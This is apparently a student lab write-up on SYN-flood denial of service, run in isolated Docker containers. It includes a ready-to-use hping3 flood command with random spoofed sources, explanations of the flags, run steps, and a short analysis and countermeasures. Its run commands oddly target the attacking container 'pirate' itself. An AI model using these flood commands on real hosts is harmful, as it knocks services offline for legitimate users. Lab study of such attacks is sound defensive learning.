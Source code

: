 # DoS
In this exercice, we are going to test one kind of DoS attack: SynFlooding with `hping3` tool.

## Content
- [DoS](#dos)
  - [Content](#content)
  - [Work Environment](#work-environment)
  - [Work Process](#work-process)
    - [hping3](#hping3)
    - [How to run](#how-to-run)
    - [Result](#result)
  - [Interpretation](#interpretation)
  - [Conclusion](#conclusion)

## Work Environment
The work environment is consisted of:
- two services
  - pirate:
    - purpose: execute DoS attack
    - tools: `hping3`
    - ip: 10.10.10.4
  - server:
    - purpose: a prototype of server
    - ip: 10.10.10.2
- environment configuration in `.env` contains:
  - ip addresses configuration
- `docker-compose.yml` configuration
  
## Work Process
### hping3
> hping3 is a network tool able to send custom TCP/IP packets and to display target replies like ping program does with ICMP replies. hping3 handle fragmentation, arbitrary packets body and size and can be used in order to transfer files encapsulated under supported protocols.[linux.die.net]

example:
`hping3 -V -c 1000000 -d 120 -S -w 64 -p 445 -s 445 --flood --rand-source VICTIM_IP`
  - --flood: sent packets as fast as possible. Don't show replies.
  - --rand-dest: random destionation address mode. see the man.
  - -V <-- Verbose
  - -c --count: packet count
  - -d --data: data size
  - -S --syn: set SYN flag
  - -w --win: winsize (default 64)
  - -p --destport [+][+]<port> destination port(default 0) ctrl+z inc/dec
  - -s --baseport: base source port (default random)

### How to run
- execute docker-compose: `docker-compose up`
- preview the status of the server: `docker exec -it server htop`
- access to the pirate bash: `docker exec -it pirate bash`
  - execute SynFlooding attack from the pirate on the server: `hping3 --flood -p 80 -S pirate`
  - execute SynFlooding attack while changing the value of packet count: `hping3 -c <value> --flood -p 80 -S pirate`

### Result
- before executing the attack:
![before_attack](demonstration/before_attack.png)

- after executing the attack:
![after_attack](demonstration/after_attack.png)

```
[MohamedAmin@samet TP1]$ sudo docker exec -it pirate bash
[root@3186b137c19b /]# hping3 --flood -p 80 -S pirate
HPING pirate (eth0 10.10.10.4): S set, 40 headers + 0 data bytes
hping in flood mode, no replies will be shown
```

## Interpretation
- The pirate sends sequence of requests to the server in high frequency.
- The server has to interprete each of these requests and thats makes it busy
- CPU status of the server becomes very high after executing the attack
- If the server has lower specifications, it will be fully charged and it may not have the opporunity to manage requests from real users

## Conclusion
- Every accessible server may be target of Flooding attack
- As counter measurment to Flooding attack, detect earlier the DoS attack and prevent massive SynFlooding by blocking attackers addresses.
- Blocking and detecting DoS attack may be really easy. But in case of attack from multiple devices or zombie clients (DDos), it may be really hard to distinguish the real clients from the fake ones.




[linux.die.net]: https://linux.die.net/man/8/hping3